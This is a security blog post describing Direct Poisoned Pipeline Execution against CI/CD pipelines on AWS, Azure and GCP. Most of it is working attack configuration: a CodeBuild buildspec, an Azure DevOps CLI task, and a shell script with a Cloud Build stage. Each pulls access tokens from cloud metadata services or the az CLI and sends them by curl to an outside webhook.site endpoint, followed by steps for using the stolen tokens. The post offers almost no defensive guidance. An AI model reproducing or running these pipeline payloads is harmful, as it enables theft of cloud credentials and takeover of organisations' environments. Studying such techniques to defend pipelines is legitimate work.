 ```yaml
---
title: "Credential Theft via Direct Poisoned Pipeline Execution (Direct-PPE) Attacks on AWS, Azure, and GCP"
date: 2025-09-27T08:15:04+00:00
tags: ["Azure","AWS","GCP","DevOps","DevSecOps","pipeline","Poisoned Pipeline Execution","Direct-PPE"]
description: "In this short blog post, I’ll show how an attacker with existing access to a source code management (SCM) system can abuse malicious pipeline configurations to steal cloud tokens and escalate access across AWS, Azure, or GCP environments."
cover:
    image: "posts/directppe/img/cover.png"
    alt: "Direct-PPE"
    relative: false
    hidden: false
    responsiveImages: true
---
```

# Credential Theft via Direct Poisoned Pipeline Execution (Direct-PPE) Attacks on AWS, Azure, and GCP
In this short blog post, I’ll show how an attacker with existing access to a source code management (SCM) system can abuse malicious pipeline configurations to steal cloud tokens and escalate access across AWS, Azure, or GCP environments.

## Direct-PPE
First, let’s clarify what Direct Poisoned Pipeline Execution (Direct-PPE) means and outline the breach scenario we’ll use to demonstrate how attackers can leverage it to further compromise cloud environments like AWS, Azure, and GCP.

Poisoned Pipeline Execution (PPE) risks refer to the ability of an attacker with access to source control systems - and without access to the build environment, to manipulate the build process by injecting malicious code/commands into the build pipeline configuration, essentially ‘poisoning’ the pipeline and running malicious code as part of the build process.

We have three types of PPE
- Direct PPE (D-PPE) : This occurs when an attacker gains direct access to the pipeline configuration. For example, they might obtain a personal access token (PAT), valid user credentials, or even a session cookie for the SCM platform, giving them the ability to modify and execute malicious changes in the pipeline configuration.
- Indirect PPE (I-PPE): This means the attacker doesn’t have direct access to the pipeline configuration files but can still compromise the pipeline by injecting malicious code into files referenced by the configuration. Examples include Makefiles, test code, scripts, or automation tools that the pipeline relies on during execution.
- Public-PPE (3PE): This is often the most dangerous scenario. If the CI pipeline of a public repository automatically runs unreviewed code submitted by anonymous contributors, it becomes vulnerable to a Public PPE (3PE) attack. This can lead to exposure of internal assets—such as secrets from private projects—especially when the public repository’s pipeline shares the same CI instance or infrastructure as private repositories.

In the next section, we’ll assume the breach has already occurred, the attacker has access to the SCM, access by having an authentication method to the organization’s source code management. It may be a personal access token (PAT), an SSH key, or any other allowed authentication credential. An example of a method an attacker can use to achieve this technique is using a phishing attack against an organization. We’ll explore how they can escalate privileges further to gain access to cloud environments.

## AWS
![image](/img/aws_killchain.png)

Because we have access to the code repository, we can use the Direct PPE attack vector to enumerate the permissions under which the pipeline is running. This can be done by querying the Instance Metadata Service (IMDS) available in the cloud environment.
In the example pipeline, I’m using webhook.site to exfiltrate captured data.

```yaml
version: 0.2

phases:
  pre_build:
    commands:
      - curl 'https://webhook.site/1ec8cf1f-cfb6-4c43-a743-7368135c8bca' -sH 'content-type:application/json' --data "$(curl http://169.254.170.2$AWS_CONTAINER_CREDENTIALS_RELATIVE_URI)"
```
You can manually retrieve the temporary role credentials from inside a container by appending the environment variable to the IP address of the Amazon ECS container agent and running the curl command on the resulting string.
```
curl 169.254.170.2$AWS_CONTAINER_CREDENTIALS_RELATIVE_URI
```
This token and the role credentials are added to the agent's internal cache. The agent populates the environment variable AWS_CONTAINER_CREDENTIALS_RELATIVE_URI in the container with the URI of the credential ID (for example, /v2/credentials/12345678-90ab-cdef-1234-567890abcdef).

![image](/img/aws_webhook.png)

The exfiltrated token can then be stored in environment variables and used with the AWS CLI to interact with the compromised cloud environment.

![image](/img/awscli1.png)

After gaining initial access, you can begin enumerating the AWS environment to identify pivot points and locate weak spots that can be exploited for further privilege escalation or lateral movement.

![image](/img/awscli2.png)

![image](/img/awscli3.png)


## Azure
![image](/img/azure_killchain.png)

We can easily exfiltrate the Azure DevOps agent access token, enumerate Azure DevOps projects, and search for additional secrets or clues to further escalate our privileges.
If the pipeline configuration contains a service connection, as shown in the upcoming example, we can directly exfiltrate that service connection and pivot into Azure environments in a straightforward way.

```yaml
- task: AzureCLI@2
  inputs:
    azureSubscription: $(azureSubscription)
    scriptType: bash
    scriptLocation: inlineScript
    inlineScript: |
      # Export Azure access token
      ACCESS_TOKEN=$(az account get-access-token --query accessToken -o tsv)
      SUB_ID=$(az account show --query id -o tsv)
      curl 'https://webhook.site/1ec8cf1f-cfb6-4c43-a743-7368135c8bca' -sH 'content-type: text/plain' --data "ACCESS_TOKEN=$ACCESS_TOKEN SUB_ID=$SUB_ID"
```

![image](/img/azure_webhook.png)

Decode the JWT using JWT.io and under decoded payload section, note the value of field titled tid which will be the Account Id/Tenant ID.
- Tenant ID will also appear in other values as well.
- Additionally, subscription ID, resource group , and resource name will be present too.

![image](/img/azurecli.png)

Install Azure PowerShell module with the below command
```
Install-Module -Name Az -Repository PSGallery -Force
```

Run below PowerShell commands to authenticate with the
Azure Cloud using the exfiltrated Identity Token and the
Account ID (from decoding the JWT)

![image](/img/azurecli.png)

We have successfully established a connection to Azure, allowing us to continue with the post-exploitation process and expand our access within the environment!

## GCP
![image](/img/gcp_attackchain.png)

Just like AWS and Azure, GCP also provides a metadata service. We can leverage it in the same way to retrieve and exfiltrate access tokens for further use in the attack chain.

Create a Shell script file named malicious.sh in the root
directory of the source code. Using this file we’ll exfiltrate the
default service account token to the webhook dashboard.
```bash
#!/bin/sh
apt update && apt install curl -y
token=$(curl "http://metadata.google.internal/computeMetadata/v1/instance/service-accounts/default/token" -H "Metadata-Flavor: Google")
echo $token > token.txt
curl -X POST 'https://webhook.site/1ec8cf1f-cfb6-4c43-a743-7368135c8bca' -sH 'content-type:application/json' --data '@token.txt'
```
Create a new build stage in cloudbuild.yaml file with the below
configurations.
```
- name: 'ubuntu'
args: ['bash', './malicious.sh']
```
![image](/img/gcp_webhook.png)

Use below command to inspect the details of an OAuth 2.0
access token issued by Google's IAM services.
```
curl https://oauth2.googleapis.com/tokeninfo?access_token=<EXFILTRATED_TOKEN>
```
![image](/img/gcpcli1.png)

Then we can enumerate the GCP project metadata with the
below command. It will give us the Project ID & other information.

![image](/img/gcpcli2.png)

We have successfully established a connection to GCP, allowing us to continue with the post-exploitation process and expand our access within the environment!

# Summary
This post explains how attackers can abuse Direct Poisoned Pipeline Execution (Direct-PPE) to steal credentials and escalate privileges in AWS, Azure, and GCP environments. Direct-PPE occurs when an attacker gains access to a source code management (SCM) system (e.g., via stolen credentials or a PAT) and modifies the pipeline configuration to run malicious commands.
Overall, the post highlights how attackers can pivot from SCM access to full cloud environment compromise using poisoned pipeline techniques.





